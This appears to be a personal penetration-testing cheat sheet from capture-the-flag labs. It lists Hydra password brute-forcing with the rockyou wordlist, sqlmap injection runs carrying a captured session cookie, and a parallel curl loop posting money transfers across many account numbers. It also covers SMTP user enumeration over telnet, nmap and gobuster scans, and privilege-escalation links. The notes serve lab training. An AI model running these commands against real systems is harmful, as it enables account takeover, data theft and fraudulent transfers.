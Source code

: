 
## Pentest

```sh
hydra -I -l 99 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
hydra -I -l 100 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
```

```sh
sqlmap http://10.10.178.141:5000 --tamper=space2comment --level 3 --risk 3 --data 'account_number=101+&password=hello'
```

```sh
sqlmap http://10.10.178.141:5000 --cookie="session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng" --tamper=space2comment --level 3 --risk 3 --data 'account_number=101&ammount=1'
```

```sh
send_req() {
  id="$1"
  curl -L -s 'http://10.10.178.141:5000/transfer' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: http://10.10.178.141:5000' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://10.10.178.141:5000/dashboard' \
    -H 'Cookie: session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "account_number=${id}&amount=1" | grep Success
}
export -f send_req

array=$(seq 99 112)

parallel send_req ::: "${array[@]}"
```

## nmap report

```sh
sudo grc nmap -v --reason -T4 -sT -F -oG  ${TARGET_IP}
sudo grc nmap -v --reason -T4 -sC -sV -F --version-intensity 9 -p8080 -oG ${TARGET_IP}
```

## Whatweb

```txt
http://10.10.178.141:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.4 Python/3.8.10], IP[10.10.178.141], Python[3.8.10], Werkzeug[3.0.4]
```

## TELNET scripting

```sh
#!/usr/bin/env bash

(
echo open 10.129.88.30 25
sleep 5
echo VRFY samuel
sleep 2
) | telnet
```

## Dir Enum

```sh
gobuster dir -u "http://jewel.uploadvulns.thm/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x .phar,.php.phtm
```

## Passive OS fingerprinting

* [satori](https://github.com/xnih/satori/)
* [p0f](https://lcamtuf.coredump.cx/p0f3/)

## Mac Ages

* [mac ages](https://github.com/hdm/mac-ages)

### links

* [cvss calculator](https://www.first.org/cvss/calculator/3.1)
* [cyberchef](127.0.0.1:8081)
* [abuse.ch](https://abuse.ch)
* [urlscan](https://urlscan.io)


### Linux Privilege Escalation

* [netbiosx's checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
* [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [total oscp guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
* [payatu](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

* [linpeas](https://raw.githubusercontent.com/Cerbersec/scripts/refs/heads/master/linux/linpeas.sh)


### Search Engines
* [shodan](https://www.shodan.io/)
* [DNSdumpster](https://dnsdumpster.com/)
